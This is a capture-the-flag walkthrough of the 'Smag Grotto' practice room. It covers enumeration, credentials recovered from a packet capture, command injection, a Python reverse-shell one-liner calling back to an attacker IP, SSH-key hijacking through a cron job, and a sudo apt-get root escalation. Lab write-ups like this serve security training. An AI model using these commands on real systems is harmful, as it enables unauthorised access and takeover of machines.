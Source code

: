 # Smag Grotto

10 July 2021

---

## Index
- [Enumeration]()
- []()
- []()

---

```bash
export IP=10.10.94.23
```

### Enumeration

```bash
$ nmap -sC -sV -v $IP -oN nmap/initial.nmap
```

Ports:
```
22 ssh
80 http
```

Now enumerating the website with:

```bash
$ gobuster dir -t 64 -u $IP -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .txt,.php,.html -o gobuster/dir_med_ini.txt
```

We notice a strange directory `/mail/` which has a wireshark capture file that is downloadable for us to explore.
Analysing the packet we notice two major things.
* Firstly, a hostname `development.smag.thm`
* Secondly, user credentials with which to login with

`helpdesk:cH4nG3M3_n0w`

Adding the hostname to `/etc/hosts` and using those credentials to login with, and are greeted with a splash page with the ability to send commands.

![splashpage](./.assets/splashpage.png)

Initially, I tried `whoami` and `ls` but no output was returned. I then opened tcpdump.

```bash
$ tcpdump -i utun1 icmp
```

And I could receive pings! But I couldn't access the commands anymore and it was stuck pinging me. So after restarting the machine I set about creating a reverse shell with which I could access the box.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<<IP>>",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I now had a shell to access the machine with and we can begin enumerating the machine to escalate priviledges. I kicked off with good old linpeas.
It quickly found a cronjob which would concatenate a backup of jake's public ssh key to his `.ssh/` folder. We can generate a new ssh key pair and overwrite the public one with ours and log in with our newly generated ssh key

```bash
$ ssh-keygen -f jake
```

And now we wait for the cronjob to overwrite the file...
And one minute of waiting later, we can now login in as jake! And grab the user flag too.

Now we check for sudo permissions and notice that we can `sudo apt-get` without need of a password. 

![sudo apt-get](./.assets/sudo_perms.png)

Consulting gtfobins, we can run:

```bash
$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

To escalate priviledges! And nab the root flag!

And we are _**complete!**_

Enjoyable and straight-forward room.

![smag grotto](./.assets/smag_grotto.png)
